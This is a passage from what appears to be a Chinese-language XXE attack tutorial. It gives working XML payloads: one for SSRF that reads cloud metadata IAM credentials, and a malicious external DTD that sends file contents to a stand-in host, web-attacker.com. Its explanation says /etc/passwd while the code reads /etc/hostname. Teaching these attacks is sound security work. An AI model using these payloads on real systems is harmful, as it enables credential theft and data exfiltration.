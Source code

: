 通过 XXE 进行 SSRF 攻击，payload 如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF](#toc_blind-ssrf)

当外部实体不能使用时，也许可以试试 XML 参数实体，payload 如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF 带出敏感数据](#toc_blind-ssrf_1)

在这种情况下，让服务器加载一个带有恶意负载的新 DTD，该恶意负载将通过 HTTP 请求发送文件的内容（对于多行文件，您可以尝试通过 ftp://对其进行过滤）。

恶意 DTD 拿到 /etc/hostname 文件内容的示例如下：

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

该 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个 XML 参数实体 exfiltrate 的动态声明。通过向攻击者的 web 服务器发出包含 URL 查询字符串中“file”实体值的 HTTP 请求来操作 exfiltrate 实体。
-   使用 eval 实体，这将导致执行 exfilter 实体的动态声明。
-   使用 exfiltrate 实体，通过请求得到指定的 URL 的内容。

然后，攻击者必须在他们控制的系统上托管恶意 DTD，通常是将其加载到自己的 Web 服务器上。例如，攻击者可能通过以下 URL 为恶意 DTD 提供服务：[http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd)

最后，攻击者必须向易受攻击的应用程序提交以下 XXE 负载：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个 XXE 的 payload 声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体。这将导致 XML 解析器从攻击者的服务器获取外部 DTD，并对其进行内联解释。然后执行恶意 DTD 中定义的步骤，并将/etc/passwd 文件传输到攻击者的服务器。

### [Error Based XXE(外部实体)](#toc_error-based-xxe)

这种情况出现于我们将使服务器加载一个恶意 DTD，该 DTD 将在错误消息中显示文件的内容（只有可以看到错误消息时，这才有效）。
